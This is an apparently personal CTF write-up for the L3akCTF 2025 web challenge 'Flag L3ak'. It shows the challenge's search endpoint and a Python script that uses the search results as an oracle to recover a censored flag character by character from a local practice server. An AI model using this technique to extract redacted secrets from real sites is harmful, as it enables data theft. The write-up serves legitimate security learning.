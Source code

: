 ```yaml
---
title: L3akCTF 2025 - Flag L3ak
date: 2025-07-12
categories:
  - CTF
tags:
  - CTF
  - web
---
```


For this CTF, I tried to venture outside of my meta--I did solve some crypto challenges, but I also ended up completing my first rev challenge and also solved this web challenge. I found this the most interesting, so here's my writeup of how I solved it.

## Overview

In this challenge, we're sent to a blog-like webpage (not dissimilar to this website) that contains different posts. One of the posts contains the flag.

```js
const posts = [
    {
        id: 1,
        title: "Welcome to our blog!",
        content: "This is our first post. Welcome everyone!",
        author: "admin",
        date: "2025-01-15"
    },
    {
        id: 2,
        title: "Tech Tips",
        content: "Here are some useful technology tips for beginners. Always keep your software updated!",
        author: "Some guy out there",
        date: "2025-01-20"
    },
    {
        id: 3,
        title: "Not the flag?",
        content: `Well luckily the content of the flag is hidden so here it is: ${FLAG}`,
        author: "admin",
        date: "2025-05-13"
    },
    ...
];
```

However, any instance of the flag is replaced with `*`.

![hidden flag](/assets/flag-l3ak/l3ak-blog.png)

As a result, we want to figure out a way to bypass the censored flag.

## Search Requests

If we look carefully at the search request code, we can see that matching posts are first filtered, and then the flag is replaced with the asteriks.

```js
app.post('/api/search', (req, res) => {
    const { query } = req.body;
    
    if (!query || typeof query !== 'string' || query.length !== 3) {
        return res.status(400).json({ 
            error: 'Query must be 3 characters.',
        });
    }

    const matchingPosts = posts
        .filter(post => 
            post.title.includes(query) ||
            post.content.includes(query) ||
            post.author.includes(query)
        )
        .map(post => ({
            ...post,
            content: post.content.replace(FLAG, '*'.repeat(FLAG.length))
    }));

    res.json({
        results: matchingPosts,
        count: matchingPosts.length,
        query: query
    });
});
```

As a result, even if we search for something that is censored, it will still show up hidden behind the censors. For example, searching for the first three characters of the flag in this CTF competition (i.e. "L3A", where the flag tag is "L3AK") gives us two blog posts, one of which is censored.

![search for L3A](/assets/flag-l3ak/l3ak-search.png)

Hence, we can bash through all possible characters, check if the post with the flag shows up in the found posts, and build the flag accordingly. The annoying thing is that the query must be 3 characters, but it isn't the end of the world.

## Scripting

The solution is rather straightforward.

```python
import requests
import string

URL = "http://localhost:3000/api/search"
LENGTH = 17
flag = "L3AK{"

def search_query(query):
    try:
        response = requests.post(URL, json={"query": query})
        if response.status_code == 200:
            return response.json()
        else:
            print(f"Server returned status {response.status_code}: {response.text}")
    except Exception as e:
        print(f"Request failed: {e}")
    return None


def check_in_flag_post(substring):
    result = search_query(substring)
    if result and result.get("results"):
        for post in result["results"]:
            if post.get("title") == "Not the flag?":
                return True
    return False


print("--- EXTRACTING FLAG ---")
while len(flag) < LENGTH:
    print(f"\nCurrent flag: {flag} (length: {len(flag)} of {LENGTH})")

    test = flag[-2:]
    print(f"Testing {test} + ?")

    for char in string.printable:
        test_str = test + char
        if check_in_flag_post(test_str):
            print(f"Found valid char: {char}")
            flag += char
            break

print("\n--- FINAL RESULT ---")
print(f"Extracted flag: {flag}")
```

I'm using the library `requests` to send requests to the server, and `string` because I don't want to type out all of the possible characters.

`search_query` will send a POST request to the `/api/search` endpoint of the website and `check_in_flag_post` will check if the blog post "Not the flag?" shows up in the results. Then, since we know the flag starts with "L3AK{", we can constantly send the last 2 characters of the flag and some random character, which is what this block of code is for.

```python
    for char in string.printable:
        test_str = test + char
        if check_in_flag_post(test_str):
            print(f"Found valid char: {char}")
            flag += char
            break
```

Running the script, we get the following result.

```
--- EXTRACTING FLAG ---

Current flag: L3AK{ (length: 5 of 17)
Testing K{ + ?
Found valid char: t

Current flag: L3AK{t (length: 6 of 17)
Testing {t + ?
Found valid char: 3

...

Current flag: L3AK{t3mp_flag!! (length: 16 of 17)
Testing !! + ?
Found valid char: }

--- FINAL RESULT ---
Extracted flag: L3AK{t3mp_flag!!}
```

***

[Download flag-l3ak](/assets/flag-l3ak/flag-l3ak.tar.gz)
